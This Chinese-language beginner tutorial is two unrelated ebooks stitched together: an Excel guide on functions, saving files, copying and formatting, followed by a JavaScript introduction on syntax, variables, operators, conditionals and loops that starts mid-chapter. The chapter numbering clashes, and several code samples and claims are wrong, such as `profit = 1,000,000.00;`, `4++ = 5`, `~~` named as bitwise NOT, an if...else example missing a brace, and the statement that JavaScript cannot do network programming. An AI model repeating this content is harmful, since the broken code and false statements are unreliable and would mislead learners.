- Excel 将从第一个单元格的公式应用到你选择的单元格。

# Excel 中的函数

## 基础函数

现在你已经知道如何编写和复制公式，就可以通过 MS Excel 快速方便地进行计算。然而，某些计算过于复杂或涉及许多单元格。因此，输入数据可能会很无聊且耗时。

例如，你可能创建一个公式来获取一个 4 单元格列的总和：

```


```
=A1+A2+A3+A4
```

这种方法运行良好。但是，如果你必须处理 500 个单元格，你可能会沮丧地抓狂头发。显然，没人想手动引用那些数字。

Excel 可以帮助你应对这种情况。如何做呢？这个强大的电子表格程序提供了大量的预装公式（称为“函数”）。你需要为单次操作引用数百个单元格吗？没问题。使用 Excel 函数……见之就灵！该程序将代表你高亮显示这些单元格。为了帮助你理解函数，让我们来看一个简单的例子：

```
=SUM(A1:A6)
```

所有的 Excel 函数都遵循上述语法。就像基本公式一样，函数以等号开始。等号后面是函数的名称（例如在本例中为`SUM`）和参数（即括号内的单元格）。基本上，函数名指示了你需要做什么。而参数则告诉 Excel 你需要处理的单元格。

正如前面介绍的，Excel 提供了巨大的函数集合。一些最实用的函数是：

- `SUM` – 你可以使用此函数来相加值。要激活它，你应该：
  1. 选择一个空白单元格并输入一个等号（即`=`）。
  2. 输入`SUM(`。
  3. 突出显示包含你想相加值的单元格。
  4. 输入`)`并按回车键。

- `AVERAGE` – 此函数允许你获取不同值的平均值。激活此函数的步骤如下：
  1. 在空白单元格中输入等号。
  2. 输入`AVERAGE`并输入`(`。
  3. 选择你需要处理的单元格。
  4. 添加`)`并按回车。

- `MAX` – 通过此函数，你可以轻松地从一组值中找到最大值。使用`MAX`函数，你必须：
  1. 突出显示一个空单元格并在其中输入等号。
  2. 输入`MAX(`。
  3. 突出显示你正在处理的单元格。
  4. 输入`)`并按回车。

- `MIN` – 此函数与`MAX`的完全相反。基本上，`MIN`可以给你在一组值中的最小值。使用`MIN`的你需要：
  1. 在空单元格中输入`=`。
  2. 输入`MIN`并打开一对括号。
  3. 选择你希望处理的单元格。
  4. 添加`)`并按回车键。

- `AUTOSUM` – 此函数允许你快速方便地在电子表格中输入公式。使用`AUTOSUM`，你不需要记住任何 Excel 函数/公式的语法。要使用此函数，你必须：
  1. 突出显示行/列末尾的单元格。例如，如果你正在处理`A1`、`A2`、`A3`和`A4`，你应该突出显示`A5`。
  2. 点击名为`FORMULAS`的功能带并点击`AUTOSUM`。Excel 将高亮显示整行/整列，并在空白单元格中显示预装函数。
  3. 如果 Excel 高亮显示了正确的单元格并提供了正确的函数，按回车键。如果自动化过程中有任何错误，请使用公式栏进行必要的更改。完成后，按回车键。

这是一张截图：



# 如何使用其他函数

`SUM`是`AUTOSUM`的默认函数。然而，你可以轻松选择其他函数。一旦点击`AUTOSUM`按钮，Excel 将向你显示几个选项，如`MIN`、`MAX`、`AVERAGE`和`COUNT NUMBERS`。如果你对这些内置函数不满意，你可以访问 Excel 完整的函数集合。要查看这些函数，你需要：

1. 突出显示你想放置结果的单元格。
2. 进入名为`FORMULAS`的功能带并点击`INSERT FUNCTION`。这是功能带上的第一个按钮。
3. 屏幕上将出现一个对话框。在这里你有两个选项：
   - 选项一
     1. 描述你想使用的函数或从下拉菜单中选择类别。
     2. 对话框将向你显示几个函数。点击你想使用的那个。
     3. Excel 将描述该函数的工作原理。此外，它还将向你显示该特定函数的语法。
     4. 如果你想了解更多关于该函数，点击写有`Help on this function`的蓝色链接。
4. 当你准备好使用该函数时，点击`OK`按钮。
5. 将出现另一个对话框。然而，这将建议一组可以应用该函数的单元格。如果你想使用建议的单元格，只需按回车键。如果建议不正确，你可以手动选择相应的单元格并按回车。

## 第二种选项

1. 点击名为`Range Selector`的按钮。此操作将给你一个较小的对话框。
2. 将鼠标拖动到你想处理的单元格上。
3. 再次点击`Range Selector`返回之前的对话框。

# 第章：如何管理 Excel 文件

与大多数程序一样，Excel 允许你保存文件。这意味着你不需要在一个环节内完成项目或任务。你可以保存未完成的文件并在以后返回它们。

根据计算机专的建议，你应该频繁保存文件。这可以帮助防止由系统崩溃或断电引起的问题。

## 如何保存文件

Excel 程序会自动命名新文件。文件名格式为`Bookn`，其中`n`代表从 1 开始的数字。对于你在会话中创建的每个工作簿，该数字都会增加 1。

要保存新文件，你应该：

1. 点击写有`SAVE`的按钮。或者，你可以按键盘上的`CTRL+S`。
2. Excel 将显示一个对话框。使用对话框指定文件名和保存位置。
3. 一旦设置了正确的名称和位置，点击`SAVE`。

要对现有文件保存更改，你必须：

1. 按键盘上的`CTRL+S`。此操作将保存现有文件的最新更改。作为常规，你应该每 10 分钟保存一次更改。

## 如何将工作簿另存为不同的文件

1. 点击名为`FILE`的功能带并点击`SAVE AS`。
2. 你将看到一个请求文件名和位置的对话框。
3. 输入信息并点击`SAVE`。

## 如何创建新文件

1. 进入`FILE`功能带并点击`NEW`。屏幕将向你显示各种启动新项目的模板。
2. 选择你需要模板。大多数 Excel 用户选择空白模板。

注意：如果你想创建一个空白工作簿，只需按键盘上的`CTRL+N`。

# 第 5 章：如何复制和移动数据

在某些情况下，你必须将信息传输到工作表的其他部分。删除并重新输入条目可能会非常麻烦，因此 Excel 提供的“复制/移动”功能是一件很好的事情。基本上，此功能允许你将数据复制或传输到不同的文件或应用程序。这意味着你可以复制 Excel 条目并将其粘贴到文本文件中。

Microsoft 软件（例如记事本、PowerPoint、Excel 等）在移动或复制项目时都使用相同的功能：粘贴、剪切和复制。

## 如何移动条目

1. 选择你需要操作的单元格。
2. 进入“首页（HOME）”选项卡并点击“剪切（CUT）”按钮。该按钮上有一个剪刀图标。
3. Excel 将高亮你选的单元格。
4. 点击你想传输数据的单元格。
5. 按下回车键或点击“粘贴（PASTE）”按钮完成操作。

## 如何复制条目

1. 高亮你需要复制的单元格。
2. 进入“首页（HOME）”选项卡并点击“复制（COPY）”按钮。
3. 点击你想粘贴复制数据的单元格。
4. 点击“粘贴（PASTE）”按钮（位于“首页”带功能区上）或按下键盘上的回车键。

## 剪贴板

与其他应用程序类似，Excel 拥有一个“剪贴板”——这是一个用于存储你剪切或复制的项目的功能。基本上，它允许你保存不同的信息并粘贴到其他工作簿或 Windows 程序中。

几乎所有的 Microsoft 应用程序都有剪贴板。在 Excel 中，此功能可以容多达 24 个项目（即每当剪切或复制新项目时，它都会删除旧的条目）。你可以完全清除剪贴板或从中删除某些项目。

要访问 Excel 的剪贴板，只需进入“首页（HOME）”功能区，并点击第一个框右下的小箭头。这里有一张截图：



## 拖放功能

Excel 允许你通过拖动鼠标来移动或复制数据。这种功能被称为拖放，可以帮助你在不按键盘任何键的情况下操作数据。它是简单快捷的，尽管你需要在拖动任何内容之前确保你拥有正确的鼠标指针。

当你选择一个单元格时，Excel 会用黑色边框将其高亮。如果你将鼠标指针悬停在这个边框上，你会看到一个黑色的十字——这就是你使用拖放功能时所需的指针。

要移动数据，你应该：

1. 选择你想操作的单元格。
2. 将鼠标悬停在单元格的边界上。
3. 一旦出现黑色十字，将鼠标拖向目标位置。你会在屏幕上看到一些闪烁的线条——它们将显示在你释放鼠标后单元格将放置的位置。
4. 一旦你正确了了闪烁线条，即可释放鼠标左键。

要复制数据，你必须：

1. 高亮你正在操作的单元格。
2. 将鼠标放在这些单元格的边界上。指针应该变成一个黑色的十字。
3. 按住`CTRL`键，左键点击边界，并将单元格拖向目标位置。Excel 会在指针旁边显示一个黑色的`+`符号。此符号表示你正在复制数据，而不是移动。
4. 一旦到达正确的单元格，释放鼠标左键和`CTRL`键。

# 第 6 章：如何格式化单元格

创建电子表格后，你可能对其进行格式化，以获得易读且专业的文档。Excel 提供了各种格式化单元格的方法，其中将在本章中讨论。为了帮助你在 2 周内掌握 Excel 的基础知识，本电子书将讨论今天最流行的格式。

## 首页（HOME）功能区

通过点击“首页（HOME）”访问所有的格式化选项。格式化组（见下方截图）包含了 Excel 中一些实用的格式。



## 如何更改字体

1. 高亮你想操作的单元格。
2. 点击当前字体名称旁边的下拉箭头。Excel 将按字母顺序显示所有可用字体。
3. 选择你想使用的字体并点击它。高亮单元格内的字母和数字将反映此变化。

## 如何更改字体大小

1. 高亮你需要格式化的单元格。
2. 点击“字体大小”文本框。
3. 输入你偏好的字体大小。

重要提示：你可以点击“字体大小”菜单的下拉箭头。然后，从列表中选择正确的字体大小。

## 如何应用加粗、斜体或下划线

1. 选择你想要格式化的单元格。
2. 根据你想执行的操作点击`B`、`U`或`I`。
   - `B` – 此选项使字符**加粗**。
   - `I` – 此选项使字符变为*斜体*。
   - `U` - 使用此选项为字符添加下划线。

## 结论

再次感谢下载本书！

我希望这本书能够帮助你在仅用 2 周内掌握 Excel 的基础知识。

下一步是使用 MS Excel 创建你自己的电子表格。

JavaScript 的客户端类型相比典型的 CGI（即通用网关接口）服务器端脚本具有多种优势。例如，你可以使用客户端 JavaScript 来判断用户是否在你的表单字段中提供了有效的联系信息。

每当用户提交表单时，JavaScript 代码就会运行。然后，系统将分析提交的表单中的信息。这种机制确保了 Web 服务器不会处理无效请求。因此，客户端 JavaScript 为你的网站提供了更好的安全性和性能。

这种编程语言还允许你收集用户发起的隐式或显式操作（例如链接导航、按钮点击等）。

## JavaScript 提供的优势

以下是该编程语言提供的主要优势：

- 减少服务器交互 – JavaScript 可以在将信息发送到 Web 服务器之前对用户输入进行验证。这意味着你可以从服务器中过滤掉无效流量。
- 即时反馈 – 你的网站访问者将立即看到他们是否遗漏了某个字段或输入了错误数据。他们无需刷新页面即可看到错误消息。
- 提高网页交互性 – 通过 JavaScript，你可以创建对鼠标和键盘输入有响应的用户界面。
- 增强型界面 – 在这种语言中，你可以轻松地为网站访问者添加酷的界面元素（例如滑块、拖放组件等），以提供增强的界面。

## JavaScript 的缺点

就像生活中的其他事物一样，JavaScript 也有自己的缺点。主要的缺点包括：

- 该语言不具备多进程或多线程能力。
- 你不能使用 JavaScript 网络程序。这种语言不支持侧重于网络的程序/应用程序。
- 你无法读取或编辑使用客户端 JavaScript 编写的文件。出于考虑，这些功能被禁用了。

# 第2 章：JavaScript 语法

你可以通过将 JavaScript 语句放在网页的`<script>`标签内部来实现这种语言。通常，你可以将这些`<script>`标签放在网页的任何位置。然而，专业的网站开发者通常会将这些标签放在页面的`<head>`标签内。

基本上，`<script>`标签指示浏览器将其包含的文本解释为脚本。以下是 JavaScript 的基本语法：

```
<script ...>

JavaScript code

</script>
```

脚本标签接受以下属性：

- `Language` – 该属性指示正在使用的语言。然而，最新版本的 HTML 和 XHTML 不再支持此属性。
- `Type` – 这是现代网站网页使用的属性。你必须使用它来指示你正在使用的计算机语言。确保其值为`"text/javascript"`。

考虑到这些属性，JavaScript 的语法为：

```
<script language="javascript" type="text/javascript">

JavaScript code

</script>
```

## 首次使用 JavaScript

在本节中，你将首次使用这种脚本语言。你将使用的代码被设计为在计算机屏幕上显示“Hello World”。正如你所看到的，JavaScript 代码（见下图）涉及一个可选的 HTML 元素。该 HTML 注释允许你防止不支持 JavaScript 语言的浏览器解析代码。

符号`//`终止 HTML 注释。在 JavaScript 中，`//`代表注释。这意味着你必须使用一对斜杠来防止浏览器将 HTML 注释解释为你的 JavaScript 语句的一部分。然后，你必须调用`document.write`函数。

重要说明：`document.write`函数可以将字符串写入 HTML。这里有一个示例：

```html
<html>

<head>

<script type="text/javascript">

document.write("Hello World!");

</script>

</head>

</html>
```

## 空格符与换行符

这种语言忽略制表符、空格和换行符，使得代码更具可读性。

## 分号

与其他语言（例如 C++）类似，JavaScript 需要分号来终止语句。然而，你不需要在块中的最后一个语句后添加分号。例如：

```javascript
var1 = 10

var2 = 20
```

## 大写敏感

这种语言对大小写敏感。例如，`"WORD"`和`"word"`被视为不同的实体。

## 注释

JavaScript 允许两种注释：

- 单行注释：使用`//`开始单行注释。
- 多行注释：使用`/*`开始多行注释，使用`*/`结束多行注释。

# 第3 章：JavaScript 的放置位置

你还可以选择将 JavaScript 代码放在 HTML 文件的`<head>`和`<body>`区域。分析以下示例：

```html
<html>

<head>

<script type="text/javascript">

function sayHello() {

  alert("Hello World")

}

</script>

</head>

<body>

<script type="text/javascript">

document.write("Hello World")

</script>

<input type="button" onclick="sayHello()" value="Say Hello" />

</body>

</html>
```

## 将代码放置在 <body> 区域

通常，如果你希望 JavaScript 代码在网页加载时产生内容，你应该将其放置在`<body>`部分。这里有一个示例：

```html
<html>

<head></head>

<body>

<script type="text/javascript">

document.write("Hello World");

</script>

<p>This is web page body</p>

</body>

</html>
```

该代码生成了以下结果：

```
Hello World

This is web page body
```

## 将代码放置在文档的 <head> 和 <body> 区域

你还可以选择将 JavaScript 代码放在文档的`<head>`和`<body>`区域。查看以下示例：

```html
<html>

<head>

<script type="text/javascript">

function sayHello() {

  alert("Hello World")

}

</script>

</head>

<body>

<script type="text/javascript">

document.write("Hello World")

</script>

<input type="button" onclick="sayHello()" value="Say Hello" />

</body>

</html>
```

## 将代码放置在外部文件中

在使用 JavaScript 时，我一定会遇到很多需要在不同网页上使用相同代码的情况。重复输入相同的代码可能是无聊且耗时的。幸运的是，你只需将你的 JavaScript 代码保存在外部文件中。然后，你只需要将该文件链接到需要相同代码的网页即可。

```html
<html>

<head>

<script type="text/javascript" src="filename.js"></script>

</head>

<body>

......

</body>

</html>
```


这种方法要求你将你的 JavaScript 代码写入一个文本文件中，并使用“.js”作为扩展名进行保存（例如`example.js`）。

让我们来尝试一个简单的练习。将下面的代码复制到文本文件中并将其保存为“filename.js”。然后，在添加了`filename.js`文件后，利用你 HTML 文档中的`sayHello`函数。

```javascript
function sayHello() {
  alert("Hello World")
}
```

## 第 4 章：JavaScript 语言中的变量

### JavaScript 中不同的数据类型

与其他编程语言类似，JavaScript 有有它自己支持的数据类型。因此，你可以使用 JavaScript 来表示和操作某些值和信息。

这种编程语言支持这些基本数据类型：

- 布尔值（Boolean，即`true`或`false`）
- 字符串（Strings，例如“这本书太棒了。”）
- 数字（Numbers，例如 1, 2, 3, 123 等）

JavaScript 还支持`null`和`undefined`，这是描述单个值的数据类型。最后，这种语言使用一种名为“对象”（object）的复杂数据类型。你将在本书后面的部分学习对象。

重要提示：JavaScript 将所有数字视为浮点值。

### 变量

作为 JavaScript 用户，你可能将变量视为容器：你可以将不同类型的信息放入变量中。要访问存储的数据，你只需要指定持有它的容器即可。

在使用变量之前你必须先声明它们。在 JavaScript 中，声明变量时应该使用`var`。查看以下示例：

```javascript
<script type="text/javascript">
<!--
var money;
var name;
//
-->
</script>
```

上面的代码声明了变量：`money`和`name`。

将数据保存到变量的过程被称为变量初始化。大多数程序员会在声明期间初始化变量。然而，你也可以简单地声明变量而不保存任何值：一旦你有需要，就可以将数据保存到变量中。

例如，你可以创建一个名为`profit`的变量而不输入任何值。一旦你从总收入中扣除了费用，就可以回到你创建的变量并输入信息。要初始化变量，你只需要指定变量名，放置一个等号，并输入你想要分配的值。这里有一个示例：

```javascript
var profit;
profit = 1,000,000.00;
```

JavaScript 被认为是一种“无类型”的计算机语言。这意味着 JavaScript 变量可以包含任何类型的数据。这是相比其他语言的巨大优势，后者要求用户在创建变量时指定数据类型。

### 变量的作用域

变量的“作用域”是你计算机程序中声明它的区域。JavaScript 支持以下作用域：

- 局部（Local）——局部变量仅在定义的函数内部可见。这意味着一个函数无法使用另一个函数的局部变量。
- 全局（Global）——变量对程序内的所有函数可用。这意味着你可以在代码的任何地方定义它们。

如果局部变量和全局变量同名，局部变量将优先。如果你使用现有全局变量的名称在局部声明变量，你将隐藏该全局变量。分析下面的示例代码：

```javascript
<script type="text/javascript">
<!--
var myVar = "global"; // 声明一个全局变量
function checkscope() {
  var myVar = "local"; // 声明一个局部变量
  document.write(myVar);
}
-->
</script>
```

上面的代码将为你显示此结果：`Local.`

### 变量命名

在为变量选择名称时，你应该记住以下规则：

- 你不能使用任何 JavaScript 关键字（例如`break`, `Boolean`等）作为变量的名称。你将在稍后部分学习 JavaScript 关键字。
- 命名变量时可以使用字母、数字和下划线。但是，名称不能以数字开头。例如，`sample1`是有效的，但`1sampleisn`是无效的。
- 变量对大小写敏感。这意味着 JavaScript 将“SAMPLE”、“Sample”和“sample”视为三个不同的变量。

### JavaScript 中的保留关键字

与其他编程语言类似，JavaScript 有一组用于特殊用途的单词。你不能在命名对象、方法、函数、循环和变量时使用这些单词。下表将向你展示 JavaScript 语言中所有的关键字。

| if | do | in | int |
| :--- | :--- | :--- | :--- |
| new | try | for | var |
| else | enum | this | long |
| byte | case | true | null |
| char | goto | void | with |
| break | throw | false | final |
| catch | float | class | const |
| while | short | super | switch |
| export | throws | typeof | public |
| return | delete | static | double |
| import | Instanceof | abstract | synchronized |
| Boolean | interface | extends | transient |
| finally | package | private | protected |
| function | volatile | continue | debugger |
| implements | | | |

## 第 5 章：JavaScript 运算符

JavaScript 语言支持以下类型的运算符：

- 逻辑运算符
- 比较运算符
- 赋值运算符
- 算术运算符
- 位运算符
- 杂运算符

让我们讨论每种类型的运算符：

### 逻辑运算符

JavaScript 支持这些逻辑运算符：

注意：假设`x = 5`且`y = 10`。

- `&&` – 这被称为逻辑与运算符。如果两个两个操作数都不等于零，则条件为真。例如：`(x && y)`为真。
- `||` – 此运算符称为逻辑或运算符。如果操作数至少有一个不等于零，则条件为真。例如：`(x || y)`为真。
- `!` – 程序员将此运算符称为逻辑非。此运算符会反转它所作用运算符的结果。例如：`!(x && y)`为假。

### 比较运算符

这里是你可以在 JavaScript 中使用的比较运算符：

注意：让我们使用以下变量：`x = 2; y = 4`。

- `==` – 此运算符检查操作数的相等性。如果值相等，则条件为真。例如：`(x == y)`为假。
- `!=` – 使用此运算符，你可以检查操作数的值是否不等。如果值不相等，则条件为真。例如：`(x != y)`为真。
- `>` –在这里，你将检查左侧操作数的值是否大于右侧操作数的值。如果是，则条件为真。例如：`(x > y)`为假。
- `<` – 此运算符检查两个操作数的值。如果左侧操作数的值小于右侧操作数的值，则条件为真。例如：`(x < y)`为真。
- `>=` – 你可以使用此运算符检查左侧操作数的值是否大于等于右侧操作数的值。如果是，则条件为真。例如：`(y >= x)`为真。
- `<=` – 使用此运算符，你可以检查左侧操作数的值是否小于等于右侧操作数的值。如果是，则条件为真。例如：`(x <= y)`为真。

### 赋值运算符

这些是你可以用于赋值的运算符：

- `=` – 这是简单赋值运算符。它将右侧操作数的值赋给左侧操作数。例如：`(z = x + y)`将`x + y`的值赋给`z`。
- `+=` – 此运算符被称为“加法赋值”运算符。它将两个操作数的值相加结果交给左侧操作数。例如：`(z += x)`等于`(z = z + x)`。
- `-=` – 程序员称之为“减法赋值”运算符。它从左侧操作数的值中减去右侧操作数的值。然后，将差赋给左侧操作数。例如：`(z -= x)`等于`(z = z - x)`。

`(z -= x)`等于`(z = z - x)`。

- `*=` – 此运算符被称为“乘法并赋值”。它将两个操作数的值相乘并将结果赋值给左侧操作数。例如：`(z *= x)`等于`(z = z * x)`。
- `/=` – 这被称为“除法并赋值”运算符。它将左侧操作数的值除以右侧操作数的值，并将商赋值给左侧操作数。例如：`(z /= x)`等于`(z = z / x)`。
- `%=` – JavaScript 用户将其称为“取模并赋值”运算符。它取两个操作数的模。然后，将结果赋值给左侧操作数。例如：`(z %= x)`等于`(z = z % x)`。

### 算术运算符

下方列出了 JavaScript 中可用的算术运算符。为了帮助你理解这些运算符是如何工作的，让我们使用两个示例变量：`x = 2; y = 4`。

- `+` – 如果你想对两个操作数（即运算符两侧的值）进行加法，就应该使用此运算符。例如：`x + y = 6`。
- `-` – 此运算符允许你在代码中执行减法。在这里，你从第一个操作数的值中减去第二个操作数的值。例如：`y - x = 2`。
- `*` – 如果你想乘以两个操作数，应该使用星号。例如：`x * y = 8`。
- `/` – 通过此运算符，你用左侧操作数的值除以右侧操作数的值。例如：`y / x = 2`。
- `++` – 此运算符允许对它所使用的操作数加 1。例如：`4++ = 5`。
- `--` – 此运算符从它所连接的操作数中减 1。例如：`x-- = 1`。

重要提示：你也可以使用“`+`”运算符来组合数字和字符串元素。例如，“`x`” + 4 =`x4`。

### 位运算符

这门编程语言允许你在代码中执行位运算操作。以下是你可以使用的运算符：

注意：让我们使用两个变量：`x = 2; y = 3`。

- `&` – 此被称为位与（AND）运算符。它对其参数中涉及的所有位执行布尔与逻辑操作。例如：`(x & y)`结果为 2。
- `|` – 程序员称此运算符为位或（OR）。它对其参数中涉及的位执行布尔逻辑操作。例如：`(x | y)`结果为 3。
- `^` – 这被称为位异或（XOR）运算符。它对其参数中涉及的所有位执行布尔异或逻辑操作。由于异或意味着两个操作数中只能有一个为真。例如：`(x ^ y)`结果为 1。
- `~~` – 此运算符是“一元的”（即它作用于单个操作数）。它被称为位非（NOT）运算符，会反转操作数的位。例如：`(~y)`结果为 -4。
- `<<` – 此运算符被称为左移。它根据右侧操作数指定的数字将左侧操作数的位向左移动。同时，它使用 0 填充新位。将值向左移动 1 位相当于乘以 2。因此，`(x << 1)`得到 4。
- `>>` – 这被称为右移运算符。它根据右侧操作数给出的数字将左侧操作数的值向右移动。例如：`(x >> 1)`结果为 1。
- `>>>` – JavaScript 将此称为“右移补零”。它的功能与“`>>`” 类似，唯一的区别是最左侧位始终等于 0。

### 其他运算符

本书的这一部分将讨论两个不属于上述分类分类运算符。这些运算符是：

- `?` – 这被称为“条件运算符”。它检查表达式的值是真还是假。然后，它根据评估结果执行被分配的语句之一。

例如，如果条件为真，运算符将把 1 赋值给表达式。然而，如果条件为假，运算符将赋值 2。

- `typeof` – 这是一个一元运算符，意味着你可以将其用在单个操作数。你可以用它来确定操作数的数据类型。如果操作数是字符串、布尔值或数字，该运算符将返回“string”、“boolean”或“number”。然后，它根据评估结果返回`true`或`false`。

下表提供了有关`typeof`运算符的有用信息：

| 数据类型 | typeof 的结果 |
|---|---|
| Object | “ object ” |
| Number | “ number ” |
| Boolean | “ boolean ” |
| Undefined | “ undefined ” |
| Null | “ object ” |
| Function | “ function ” |
| String | “ string ” |

## 第 6 章：条件语句

在 JavaScript 中，某些情况需要你从预定义的选项中选择一个。在这种情况下，你必须使用条件语句。本章将讨论三个最重要的语句：(1) “`if`” 语句，(2) “`if ... else`” 语句以及 (3) “`if ... else if ...`” 语句。

### 条件语句流程图

下面的图片显示了条件语句的流程图：

`img/2c9600e77fb61c569a23618.png`

### if 语句

该语句是 JavaScript 中的基础条件语句。它可以帮助程序做出决策并执行语句。

“`if`” 语句的语法为：

```javascript
if (expression){
  expression 为真时执行的语句
}
```

上面的代码评估 JavaScript 。如果结果为真，将执行分配的语句。然而，如果结果为假，则什么都不执行。

### if ... else 语句

该语句比上一个复杂。这是因为 “`if ... else`” 语句在执行语句时提供了更好的控制。

以下是 “`if ... else`” 语句的语法：

```javascript
if (expression){
  expression 为真时执行的语句
else{
  expression 为假时执行的语句
}
```

你可以使用上面的语法来评估 JavaScript 表达式。如果结果为真，将执行放在 “`if`” 部分的语句。另一方面，如果结果为假，将执行 “`else`” 部分的语句。

### if ... else if ... 语句

基本上，这是 “`if ... else`” 语句的增强形式。通过提供多个条件，它可以帮助你的程序做出正确的决策并执行正确的操作。

创建 “`else if ...`” 语句时，你必须使用的语法如下：

```javascript
if (expression 1){
  expression 1 为真时执行的语句
}else if (expression 2){
  expression 2 为真时执行的语句
}else if (expression 3){
  expression 3 为真时执行的语句
}else{
  没有任何表达式为真时执行的语句
}
```

如果你仔细考虑，上面的语法是基础的。它是 “`if`” 语句的简单集合，每个 “`if`” 都是前一个`else`语句子句的一部分。这种语法根据评估结果执行语句。如果所有给定条件为假，系统将运行代码中的 “`else`” 部分。

### switch-case 语句

你可以使用一系列 “`if ... else if`” 语句来执行多路径分支系统。你已经在本书的上一节中学习过这些。然而，这种方法并不总是理想的答案，特别是当所有分支都取决于一个变量的值时。

幸运的是，JavaScript 提供了`switch`语句。在上述描述的情况下，单个`switch`语句比一组 “`if ... else if`” 语句更有效。



#### 语法

`switch`语句旨在完成两件事：

- 提供一个程序可以评估的表达式
- 提供根据评估结果将运行的各种语句

JavaScript 的内置解释器会将每个`case`与表达式的值进行比较。这个过程将一直持续，直到解释器找到匹配项为止。如果没有找到匹配项，解释器将运行默认条件。`switch`语句的语法如下如下：

```
switch (expression)
{
  case condition 1: statement(s)
    break;
  case condition 2: statement(s)
    break;
  ...
  case condition n: statement(s)
    break;
  default: statement(s)
}
```

这种语法使用`break`语句来终止每个`case`。如果你删除这些`break`语句，JavaScript 解释器将执行每个`case`中的所有语句。你将在下一章学习`break`语句。

## 第 6 章：JavaScript 中的不同循环类型

在编写自己的程序时，你会遇到必须多次执行某操作的情况。显然，反复输入相同的内容是非常耗时的（而且极其无聊）。幸运的是，JavaScript 提供了各种工具可以帮助你快速简单地重复语句。这些工具被称为循环，是本章的主题。

以下是你可以在 JavaScript 语言中使用的循环。

### While 循环

程序员认为这是 JavaScript 中最基础的循环类型。基本上，`while`循环在表达式为真时执行语句或代码块。一旦表达式变为假，循环就会结束。

这里是`while`循环的流程图：



#### 语法

这里是`while`循环的语法：

```
while (expression){
  Statement(s) 如果 expression 为真，则执行的语句
}
```


在执行任何语句之前，`while`循环会评估赋值表达式的条件。这意味着如果表达式为假，则没有任何语句会被被执行。

## do ... while 循环

“do ... while”循环与`while`循环类似。唯一的区别是它在执行完赋值的语句后评估表达式。如果评估结果为真，循环将再次执行该语句。只有当结果变为假时，过程才会停止。正因如此，即使评估结果为假，“do ... while”循环也会至少运行一次。

典型的“do ... while”循环的流程图为：



### 语法

这里是`do ... while`循环的语法：

```
do{
  Statement(s) 要执行的语句；
} while (expression);
```

重要提示：语法末尾的分号是强制性的。请确保在所有的“do ... while”循环中都包含它。

## For 循环

这种循环以其紧凑性而闻称。通常，“for 循环”包含以下部分：

- 循环初始化 – 这是你为计数器设置初始值的部分。JavaScript 解释器在运行循环本身之前执行这部分。
- 测试语句 – 循环的这部分评估赋值的条件。如果条件为真，解释器将执行“for”循环内部的代码。然而，如果条件为假，系统控制权将交给“for”循环之后的语句。
- 迭代语句 – 你可以使用这部分来增加或减少循环的计数器。

JavaScript 允许你将所有这些部分放在同一行中。你只需要用分号分隔每个部分即可。

下面的图片显示了“for”循环的流程图：



### 语法

"for"循环的语法为：

```
for (initialization; test condition; iteration statement){
  如果 test condition 为真，则执行的语句
}
```

## 如何控制你的循环

JavaScript 语言允许你操作所有的循环和`switch`语句。在某些情况下，你必须在到达最终部分之前退出循环语句。在另一些情况下，你必须忽略代码的某部分并初始化下一个部分。

